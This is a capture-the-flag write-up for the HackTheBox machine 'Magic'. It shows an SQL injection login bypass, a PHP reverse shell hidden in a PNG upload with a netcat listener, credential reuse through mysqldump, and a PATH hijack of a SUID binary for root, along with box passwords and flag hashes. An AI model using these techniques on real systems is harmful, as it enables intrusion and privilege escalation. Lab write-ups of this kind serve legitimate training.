



# Magic

Author: Ewaël

**Magic** is a medium HackTheBox box by TRX.

`nmap -sC -sV -oN nmap 10.10.10.185 -v -A` shows ports 22 and 80 are open. Let's start with the website as usual:


There is a login page to upload images. I already think about how I'm going to upload a reverse shell.



A simple sql injection is enough to bypass the authentification: `' or ''=':' or ''='`

Now I need to upload a reverse shell hidden in an image. Let's start by understanding what is filtered in the file check. First of all I upload a basic `image.png` and, of course, it works. Changing the mime type on burp does not change anything, so I change it to `application/x-php`. Then I try changing `.png` to `.php` but it fails. Changing it again to `.php.png` makes it work again. But replacing the whole image content by php code fails.

Alright so I decide to remove the second half of the image, and it works. I continue to delete until it fails and I add my reverse shell after the necessary lines for the type check. This way I successfully upload my reverse shell configured with the correct IP:port.




Now I start `nc -lvnp 4444` and visit `/images/uploads/php-reverse-shell.php.png` to have a shell as `www-data`. I directly use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to have a proper environment and I start searching stuff for my privilege escalation.

## Privilege escalation

I find a very interesting file in `/var/www/Magic` named `db.php5`:

```php
...
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
```

But I can't log via ssh as `theseus` because of my public key and `su theseus` does not work with this password. Thus I decide to use `mysqldump` to dump the database after seeing the file using those `db` terms.

```
mysqldump -piamkingtheseus -utheseus Magic
```

I find exactly what I need in a line of the output:

```sql
...
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
```

And this time `su theseus` works with the `Th3s3usW4sK1ng` password. I get the user flag:

`ee364b71e33c0c2c5abbeab350af2dba`

I can not use `sudo` as `theseus` so I decide to check the files with the root SUID:

```
find / -perm -u=s -type f 2>/dev/null
```

An unusual binary is returned in the list: `sysinfo`. The first time I ran this command I did not pay attention enough and started searching in `/media/floopy0` loosing one hour before coming back one this output. I decide to check how those informations about the system are printed, maybe there is a possible exploit if the program does not use `/bin/` before a call.

I move to `/tmp` to easily create files.

```
ltrace -o test sysinfo
```

First `cat test | grep system` does not return anything, but `cat test | grep popen` is very intersting:

```
popen("lshw -short", "r")                        = 0x559106a36280
popen("fdisk -l", "r")                           = 0x559106a36280
popen("cat /proc/cpuinfo", "r")                  = 0x559106a36280
popen("free -h", "r")                            = 0x559106a36280
```

There it is. Let's exploit this `cat` call.

```bash
echo "/bin/sh" > cat
chmod +x cat
export PATH=/tmp:${PATH}
```

Then I just use `sysinfo` and the program stops when it reaches the `cat` call allowing me to type commands. First time I did it I was surprised I could not see the output, but once I used `exit` it appeared. Thus using `less` I just print `/root/root.txt` and exit the shell:



`2724c7376307dfa9bc5d43579c5dea07`
